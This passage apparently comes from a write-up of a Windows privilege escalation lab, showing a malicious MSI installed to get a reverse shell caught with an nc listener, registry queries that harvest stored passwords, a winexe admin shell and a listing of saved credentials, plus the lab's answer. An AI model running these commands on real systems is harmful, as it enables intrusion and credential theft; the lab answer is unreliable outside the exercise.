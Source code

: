 ```bash
C:\PrivEsc>msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

<img width="887" height="167" alt="image" src="https://github.com/user-attachments/assets/5c84b91d-d7ab-4fc3-88d9-4f9dd52143ff" />


```bash
:~/WindowsPrivEsc# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xxx.xx.xx 49857
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<img width="1159" height="232" alt="image" src="https://github.com/user-attachments/assets/2a6733c7-0cea-45fa-9237-1174bdedc0f8" />

<br>
<br>
<br>
<h2>Task 9 . 𝗣𝗮𝘀𝘀𝘄𝗼𝗿𝗱𝘀 - Registry<a id='9'></h2>
<p>(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: <code>password123</code>)<br>

The registry can be searched for keys and values that contain the word "password":</code><br>

<code>reg query HKLM /f password /t REG_SZ /s<</code><br>

If you want to save some time, query this specific key to find admin AutoLogon credentials:<br>

<code>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"</code><br>

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):<br>

<code>winexe -U 'admin%password' //MACHINEIP cmd.exe</code></p>

<p><em>Answer the question below</em></p>

<p>9.1. What was the admin password you found in the registry?<br>
<code>password123</code></p>

```bash
C:\PrivEsc>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

<img width="891" height="561" alt="image" src="https://github.com/user-attachments/assets/aaff3665-6fc0-4f28-84d8-c58388a5746e" />

<br>
<br>
<br>
<h2>Task 10 . 𝗣𝗮𝘀𝘀𝘄𝗼𝗿𝗱𝘀 - Saved Creds<a id='10'></h2>
<p>List any saved credentials:<br>

<code>cmdkey /list</code><br>

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.<br>
